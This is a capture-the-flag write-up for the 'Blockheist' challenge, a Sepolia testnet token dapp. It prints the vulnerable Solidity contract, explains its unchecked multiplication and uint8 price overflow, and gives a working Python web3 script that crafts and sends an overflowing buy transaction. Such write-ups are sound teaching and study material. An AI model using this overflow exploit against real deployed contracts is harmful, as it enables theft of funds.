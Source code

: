 ### Blockheist
![Blockheist CTFD](../.assets/blockheist_1.png)

The landing page of the webapp hints at a crypto website with the Connect Wallet button. 

![Blockheist landing](../.assets/blockheist_2.png)

The page's source code hints at it being EVM based with the use of ethersjs

![ethers js](../.assets/blockheist_3.png)

Opening a wallet provider and connecting to the dapp reveals that it's a sepolia ethereum dapp. 

Clicking `buy` flag reveals the user must own 1e75 Haxor token, which costs 4.7e+59 ETH

![dapp](../.assets/blockheist_4.png)

Searching for a the EVM wallet address format reveals a contract address (ca).

![devtools](../.assets/blockheist_5.png)

Checking the ca on [etherscan](https://sepolia.etherscan.io/address/0x2876ad7baf96864c992150ff16f909ab12440adb) reveals the contract source code.


```solidity
// Stripped to only important sections of contract source code
pragma solidity ^0.7.6;

contract Haxor {
    mapping (address => uint256) private userBalances;
    uint8 public TOKEN_PRICE = 2 wei;
    function buy(uint256 _tokenToBuy) external payable {
        require(
            msg.value == _tokenToBuy * TOKEN_PRICE, 
            string(abi.encodePacked("error ", _tokenToBuy, msg.value))
        );

        userBalances[msg.sender] += _tokenToBuy;
        TOKEN_PRICE++;
    }
    function getUserBalance(address _user) external view returns (uint256) {
        return userBalances[_user];
    }
```
The Important things to note from the code are:
1. The `TOKEN_PRICE` variable is a `uint8` and the `userBalances` mapping has a uint256 dict value type.
2. The `buy` function uses unsafe maths to verify the amount being paid.  The unsafe multiplication will overflow back to 0 if the result of `_tokenToBuy` \* `TOKEN_PRICE` is greater than 2^256. The user wallet controls one of the variables of the multiplication. 
3. Every buy irreversibly increases the cost of each Haxor token by 1. The unsafe addition will overflow the `uint8` `TOKEN_PRICE` variable and reset it to 0 after 2^8 - 2(2 Wei is the starting price of haxor) 

A simple script to interact with the contract

```python3
contract_abi = [] #Replace with contract ABI. Get from etherscan link
from web3 import HTTPProvider, Web3

CHAIN_ID = 11155111 #Sepolia
ALCHEMY_URL = "" #Sepolia Ethereum Provdier Url
w3: Web3 = Web3(HTTPProvider(ALCHEMY_URL))
user_wallet = w3.eth.account.from_key("") #Replace with wallet private_key
CONTRACT_ADDRESS = Web3.to_checksum_address("0x2876ad7baf96864c992150ff16f909ab12440adb") # Contract address
TOKEN_CONTRACT = w3.eth.contract(address=CONTRACT_ADDRESS, abi=contract_abi)
MAX_FEE = int(w3.eth.gas_price * 1.1) 

wallet_current_balance = TOKEN_CONTRACT.functions.getUserBalance(user_wallet.address).call()
print(wallet_current_balance)
current_haxor_price = TOKEN_CONTRACT.functions.TOKEN_PRICE().call()
print(current_haxor_price)
uint_max = 2**256
wei_to_send = current_haxor_price - (uint_max % current_haxor_price)
amount_of_tokens_to_buy = (wei_to_send + uint_max) // current_haxor_price
if wallet_current_balance + amount_of_tokens_to_buy > 2**256:
   print(f"User balance will overflow back to 0")
   exit()

raw_data = TOKEN_CONTRACT.encodeABI("buy", args=[amount_of_tokens_to_buy])
tx = {
            "to": w3.to_checksum_address(CONTRACT_ADDRESS),
            "value": wei_to_send,
            "gas": 400_000,
            "maxFeePerGas":MAX_FEE,
            "maxPriorityFeePerGas": Web3.to_wei(0.0005, "gwei"),
            "nonce": w3.eth.get_transaction_count(user_wallet.address),
            "chainId": CHAIN_ID,
            "data": raw_data,
            "type": 2,
        }
print(tx)
signed_txn = w3.eth.account.sign_transaction(tx, user_wallet._private_key)
txn_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
print(w3.to_hex(txn_hash)) # Check hash manually

```

With each run of the script, the user balance increases exponentially until the wallet can afford the flag

![solution](../.assets/blockheist_6.png)